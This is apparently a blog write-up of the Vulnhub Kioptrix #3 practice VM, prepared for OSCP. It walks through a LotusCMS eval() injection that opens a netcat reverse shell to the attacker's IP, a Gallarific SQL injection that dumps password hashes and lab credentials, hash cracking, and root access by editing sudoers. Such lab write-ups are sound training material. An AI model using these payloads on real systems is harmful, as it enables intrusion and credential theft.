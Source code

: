 ```yaml
---
layout: single_c
title:  "Vulnhub - Kioptrix #3 Writeup"
date:   2020-02-07 10:43:16 +0530
categories: OSCP
tags: Vulnhub
classes: wide
---
```

## Enumeration
Lets add `kioptrix3.com` to `hosts` file and start off with `Nmap`

### Nmap
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-03 16:34 IST
Nmap scan report for 192.168.71.130
Host is up (0.0026s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
MAC Address: 00:0C:29:93:F2:E6 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.25 seconds
```

Found some interesting urls by browsing around and using `dirb`.
```bash
http://kioptrix3.com/phpmyadmin/
http://kioptrix3.com/gallery/gadmin/
http://kioptrix3.com/index.php?system=Admin
```

There are lot of methods to compromise this system. I will try to explain the ones I found.

# User Shell Method 1 (Lotus CMS RCE)
The webserver is using `LotusCms`. A quick search using `searchsploit` yielded some `RCE`

### Searchsploit

```bash
kali@kali:~$ searchsploit lotuscms
--------------------------------------------------------------------------------------------------------------------
LotusCMS 3.0 - 'eval()' Remote Command Execution (Metasploit)               | exploits/php/remote/18565.rb
```

Its a `metasploit` module. However since use of `metasploit` is limited during OSCP, I exploited it without `metasploit`

### Understanding LotusCms RCE
>This module exploits a vulnerability found in Lotus CMS 3.0's Router() function. This is done by embedding PHP code in the 'page' parameter, 
>which will be passed to a eval call, therefore allowing remote code execution.

So we can escape the `eval` call and execute our own php code by appending `');`

A reverse shell can be execute using the following code
```bash
kioptrix3.com/index.php?page=index');exec("nc -e /bin/bash 192.168.174.3 1234"); //
```
Setup a `nc` listener to catch the request and use `python pty` module to upgrade it to a full TTY shell
```bash
kali@kali:~$ nc -lvp 1234
listening on [any] 1234 ...
connect to [192.168.174.3] from kioptrix3.com [192.168.174.5] 34305
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Kioptrix3:/home/www/kioptrix3.com$    
```

## Low Shell Enumeration

There is a file named `gconfig.php` in `/home/www/kioptrix3.com/gallery` that contains the `db` credentials
```bash
www-data@Kioptrix3:/home/www/kioptrix3.com/gallery$ cat gconfig.php
cat gconfig.php
-------output snipped---------------
        $GLOBALS["gallarific_path"] = "http://kioptrix3.com/gallery";

        $GLOBALS["gallarific_mysql_server"] = "localhost";
        $GLOBALS["gallarific_mysql_database"] = "gallery";
        $GLOBALS["gallarific_mysql_username"] = "root";
        $GLOBALS["gallarific_mysql_password"] = "fuckeyou";
-------output snipped---------------
```

We can use these credential to login to `phpmyadmin` and find credentials for `dreg` and `loneferret` and use it to `SSH` into the box.
But we have to crack the hashes to get the password.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/phpmyadmin2.png){: .align-center}

# User Shell Method 2 (SQL Injection)

The web server is using `Gallarific`. It contains an SQL Injection in the following url.

```bash
http://kioptrix3.com/gallery/gallery.php?id=1%27&sort=filename#photos
```
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/sql1.png){: .align-center}

The sql error indicates that sql injection is possible. Lets dump the database using `sqlmap`

### SqlMap

```bash
Database: gallery
Table: dev_accounts
[2 entries]
+----+----------------------------------+------------+
| id | password                         | username   |
+----+----------------------------------+------------+
| 1  | 0d3eccfb887aabd50f243b3f155c0f85 | dreg       |
| 2  | 5badcaf789d3d1d09794d8f021f40f0e | loneferret |
+----+----------------------------------+------------+

Database: gallery
Table: gallarific_users
[1 entry]
+--------+---------+---------+---------+----------+----------+----------+----------+-----------+-----------+------------+-------------+
| userid | email   | photo   | website | joincode | lastname | password | username | usertype  | firstname | datejoined | issuperuser |
+--------+---------+---------+---------+----------+----------+----------+----------+-----------+-----------+------------+-------------+
| 1      | <blank> | <blank> | <blank> | <blank>  | User     | n0t7t1k4 | admin    | superuser | Super     | 1302628616 | 1           |

```
`sqlmap` found login for the users `dreg` and `loneferret` and also logins for `gallarffic`.

These hashes can be cracked using rainbow tables or by brute forcing.

### Crackstation (Rainbow Table Attack)
We can crack the hashes using online rainbow table hash cracker. [Crackstaion](crackstation.net/)
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/crackstation.png){: .align-center}


## Root Shell
After `SSH`ing into the box we can see that there is a file named `CompanyPolicy.README` which contains the following text.

```bash
loneferret@Kioptrix3:/home/loneferret# cat CompanyPolicy.README 
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
```

So we can run `sudo ht`. `ht` is a text editor and since its running as `root` we can gain `root` using one these methods
1. Edit `sudoers` file 
2. Add our key to `ssh`
3. Change the password file.

Since method 1 is the easiest, lets do it that way.

Before using `ht` we have to set the `$TERM` env variable to `xterm`
```bash
loneferret@Kioptrix3:/home/loneferret#export TERM=xterm
```
So lets open `sudoers` file and add `/bin/sh` to it.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix3/root.gif){: .align-center}

And we are root!

## Afterthoughts
This box was comparatively easy to root. But that was not the case for me. This was because I failed to enumerate the box properly. Once I found a possible exploit
I immediately abandoned further enumeration and focused on that method alone and ended up getting stuck and had to look for hints. So I have learned a very important lesson form this box. Enumeration is the most important step.  
There seems to be a kernel exploit available for this box, but I did not try that out.

## Further reading
1. [Manual SQL Injection](www.hackingarticles.in/manual-sql-injection-exploitation-step-step/). Can't use `sqlmap` during OSCP
2. [Structure of sudoers file](https://www.garron.me/en/linux/visudo-command-sudoers-file-sudo-default-editor.html)
3. [Autorecon](https://github.com/Tib3rius/AutoRecon). An excellent tool for automating enumeration